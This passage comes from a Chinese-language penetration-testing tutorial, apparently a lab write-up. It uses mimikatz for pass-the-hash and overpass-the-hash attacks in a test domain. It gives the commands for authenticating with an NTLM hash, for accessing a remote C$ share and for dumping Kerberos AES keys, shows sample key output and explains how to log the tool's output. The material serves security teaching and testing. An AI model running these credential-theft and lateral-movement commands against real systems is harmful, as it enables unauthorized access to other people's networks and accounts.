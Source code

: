 如图![这里写图片描述](http://drops.javaweb.org/uploads/images/12dea638b804b14bb7515aa3d6eb6b4d394e7247.jpg)

在测试主机上：

以管理员权限运行

```
mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /ntlm:efa85b42d77dc2fdbdbdb767792b0a11"

```

弹出cmd

```
dir \\192.168.40.132\c$

```

成功

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/557818155ba6843d38a78ad0890e524ee1525124.jpg)![这里写图片描述](http://drops.javaweb.org/uploads/images/8618803cecfe5ad5f7f926bce649158ed52fe778.jpg)

> 注:  
> 虽然"sekurlsa::pth"在mimikatz中被称之为"Pass The Hash",但是其已经超越了以前的"Pass The Hash"，部分人将其命名为"Overpass-the-hash"，也就是"Pass-the-key"

### 测试2：使用aes key远程连接

已知信息：

```
* Username : a
* Domain   : TEST.LOCAL
* Key List :
    aes256_hmac       f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c
    aes128_hmac       8cce86e4b0630f07fcf5f2110068c421
    rc4_hmac_nt       efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_old      efa85b42d77dc2fdbdbdb767792b0a11
    rc4_md4           efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_nt_exp   efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_old_exp  efa85b42d77dc2fdbdbdb767792b0a11

```

> 注：  
> 获取aes key 的mimikatz命令为：  
> mimikatz "privilege::debug" "sekurlsa::ekeys"

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/473749e952e29a07dbd0244721a2669163492a4d.jpg)

> Tips:  
> 通常情况下无法对mimikatz输出回显的内容进行复制，一种好的方法是使用日志记录功能将回显内容输出到文件中，开启日志记录功能后会把输出回显的内容保存在同级目录下的mimikatz.log中，命令参考如下：  
> mimikatz log privilege::debug sekurlsa::ekeys  
> 如果通过右键-编辑-标记的方式复制数据，当前窗口会崩溃,如图：  
> ![这里写图片描述](http://drops.javaweb.org/uploads/images/9cddb0329c6d46d1b7228cd29333c24440612035.jpg)
